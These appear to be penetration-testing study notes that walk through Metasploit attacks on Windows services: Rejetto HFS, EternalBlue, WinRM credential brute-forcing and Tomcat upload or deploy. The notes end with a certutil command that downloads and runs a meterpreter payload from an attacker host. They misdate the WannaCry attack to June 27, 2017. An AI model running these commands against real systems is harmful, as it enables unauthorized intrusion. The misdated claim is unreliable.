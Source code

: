 # i - Windows Exploitation

## <mark style="color:red;">Exploiting A Vulnerable HTTP File Server</mark>

* An HTTP File Server (HFS) is a web server that is designed for file & document sharing.
* HTTP File Servers typically run on TCP port 80 and utilize the HTTP protocol for underlying communication.
* Rejetto HFS is a popular free and open source HTTP file server that can be setup on both Windows and Linux.
* Rejetto HFS V2.3 is vulnerable to a remote command execution attack.
* MSF has an exploit module that we can utilize to gain access to the target system hosting the HFS.

### **Practical Demonstration**

```bash
msf5 > use exploit/windows/http/rejetto_hfs_exec # Exploit for Rejetto 2.3.
```



## <mark style="color:red;">Exploiting Windows MS17-010 SMB Vulnerability</mark>

* **EternalBlue (MS17-010/CVE-2017-0144)** is the name given to a collection of Windows vulnerabilities and exploits that allow attackers to remotely execute arbitrary code and gain access to a Windows system and consequently the network that the target system is a part of.
* The EternalBlue exploit was developed by the NSA (National Security Agency) to take advantage of the MS17-010 vulnerability and was leaked to the public by a hacker group called the Shadow Brokers in 2017.
* The EternalBlue exploit takes advantage of a vulnerability in the Windows SMBv1 protocol that allows attackers to send specially crafted packets that consequently facilitate the execution of arbitrary commands.
* The EternalBlue exploit was used in the WannaCry ransomware attack on June 27, 2017 to exploit other Windows systems across networks with the objective of spreading the ransomware to as many systems as possible.
* This vulnerability affects multiple versions of Windows:
  * Windows Vista
  * Windows 7
  * Windows Server 2008
  * Windows 8.1
  * Windows Server 2012
  * Windows 10
  * Windows Server 2016
* Microsoft released a patch for the vulnerability in March, 2017, however, many users and companies have still not yet patched their systems.
* The EternalBlue exploit has a MSF auxiliary module that can be used to check if a target system is vulnerable to the exploit and also has an exploit module that can be used to exploit this vulnerability on unpatched systems.
* The EternalBlue exploit module can be used to exploit vulnerable Windows systems and consequently provide us with a privileged meterpreter session on the target system.

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
msf5 > use auxiliary/scanner/smb/smb_ms17_010 # check if the target is vulnerable to EternalBlue.
msf5 > use exploit/windows/smb/ms17_010_eternalblue #Exploit for EternalBlue.
```
{% endcode %}



## <mark style="color:red;">Exploiting WinRM (Windows Remote Management Protocol)</mark>

* Windows Remote Management (WinRM) is a Windows remote management protocol that can be used to facilitate remote access with Windows systems.
* WinRM is typically used in the following ways:
  * Remotely access and interact with Windows hosts on a local network.
  * Remotely access and execute commands on Windows systems on the internet.
  * Manage and configure Windows systems remotely.
* WinRM typically uses TCP port <mark style="color:yellow;">**5985**</mark> and <mark style="color:yellow;">**5986**</mark> (HTTPS).
* WinRM implements access control and security for communication between systems through various forms of authentication.
* We can utilize the MSF to identify WinRM users and their passwords as well as execute commands on the target system.
* We can also utilize an MSF WinRM exploit module to obtain a meterpreter session on the target system.

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
msf5 > use auxiliary/scanner/winrm/winrm_auth_methods # Perform WinRM authentication method detection.
msf5 > use auxiliary/scanner/winrm/winrm_login # Perform brute-force attack to obtain legitimate credentials
msf5 > use auxiliary/scanner/winrm/winrm_cmd # Used to perform arbitrary commands using the WinRM service
msf5 > use exploit/windows/winrm/winrm_scipt_exec # Use legitimate credentials to execute a payload and return a meterpreter shell.
msf5 > set FORCE_VBS true
msf5 > run
```
{% endcode %}



## <mark style="color:red;">Exploiting A Vulnerable Apache Tomcat Web Server</mark>

* Apache Tomcat, also known as Tomcat server, is a popular, free and open source Java servlet web server.
* It is used to build and host dynamic websites and web applications based on the Java software platform.
* Apache Tomcat utilizes the HTTP protocol to facilitate the underlying communication between the server and clients.
* Apache Tomcat runs on TCP port 8080 by default.
* The standard Apache HTTP web server is used to host static and dynamic websites or web applications, typically developed in PHP.
* The Apache Tomcat web server is primarily used to host dynamic websites or web application developed in Java.
* Apache Tomcat V8.5.19 is vulnerable to a remote code execution vulnerability that could potentially allow an attacker to upload and execute a JSP payload in order to gain remote access to the target server.
* We can utilize a prebuilt MSF exploit module to exploit this vulnerability and consequently gain access to the target server.

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
msf5 > use exploit/multi/http/tomcat_jsp_upload_bypass #Upload a JSP payload onto the target and therefore give us a shell.
msf5 > set payload java/jsp_shell_bind_tcp
msf5 > set SHELL cmd # setting the shell option to cmd prompt for windows.

# for linux.
# When you will click on any of the links in left panel, it will ask to login.
# Now, we have an exploit in msf to get the login credentials:- auxiliary/scanner/http/tomcat_mgr_login
msf5 > use auxiliary/scanner/http/tomcat_mgr_login
msf5 > set RPORT # then run, you get the creds.

# Click on ‘List Applications’ under Manager tab, and you will see there are couple of options to upload the file.
# Now we can try exploiting upload vulnerability on this one, either using the exploit available on msfconsole or creating an exploit using msfvenom.
# Here we have an exploit which can be used for deploying the file on tomcat /manager directory.
# Use use exploit/multi/http/tomcat_mgr_deploy and make sure to set the username and password too for manager along with other options, this will be the one we used to login.
msf5 > use exploit/multi/http/tomcat_mgr_deploy


#Generate a payload, upload it to the target system, setup a listener, execute the payload in order to get a meterpreter shell!.
# using certutil to copy file into the windows target.
cmd > certutil -urlcache -f http://$ip/meterpreter.exe meterpreter.exe
cmd > .\meterpreter.exe # launch the payload file.
```
{% endcode %}



